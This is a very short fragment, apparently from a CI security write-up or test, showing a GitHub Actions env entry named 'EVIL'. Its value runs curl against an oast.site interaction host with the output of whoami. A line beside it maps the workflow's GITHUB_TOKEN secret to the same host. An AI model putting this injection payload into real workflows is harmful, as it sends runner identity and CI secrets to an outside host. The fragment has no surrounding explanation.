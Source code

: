 ${{ secrets.GITHUB_TOKEN }} → d0h2ce5a9dbndpa087v0en9wp3943353k.oast.site
env:
  EVIL: $(curl d0h2ce5a9dbndpa087v0en9wp3943353k.oast.site/$(whoami))
